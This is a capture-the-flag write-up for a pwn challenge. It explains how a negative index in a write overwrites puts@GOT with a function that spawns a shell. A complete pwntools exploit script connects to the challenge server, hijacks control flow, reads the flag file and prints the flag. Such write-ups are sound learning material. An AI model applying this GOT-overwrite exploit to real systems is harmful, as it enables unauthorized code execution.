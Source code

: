 https://ctftime.org/event/2658

# got (pwn)

I just started to watch Game of Thrones ! :D

## Analysis

`main` @ `0x401196`:

- Calls `scanf("%d", idx); read(0, PNJs + idx, 0x20); puts("Thanks...");`
- `idx = -4` gives us a write address of `0x404000` and we can find `puts@GOT` 8-bytes later @ `0x404008`
	- This means that we can write 16-bytes to `0x404000` such that the 2nd set of 8-bytes replaces the value of `puts@GOT`

`shell` @ `0x4012b8`:

- Calls `system("/bin/sh")`

## Solution

1) Specify -4 to generate a write address of `0x404000`
2) Write `p64(0) + p64(elf.sym["shell"])` so that `puts@GOT` now equals `shell`
3) When `puts` is called at the end of `main` it calls `shell` instead.

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./got/got", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b *0x00401264")
p = remote("got-065efd964a19db36.deploy.phreaks.fr", 443, ssl=True)

p.readuntil(b"> ")
p.sendline(str((elf.got["puts"] - elf.sym["PNJs"]) >> 5).encode())

p.readuntil(b"> ")
p.sendline(p64(0) + p64(elf.sym["shell"]))

p.sendline(b"/bin/cat ../flag")
flag = p.readuntil(b"}")
print(flag.decode()) # PWNME{G0t_Ov3Rwr1t3_fTW__}
```

## Flag
`PWNME{G0t_Ov3Rwr1t3_fTW__}`

smiley 2025/03/02
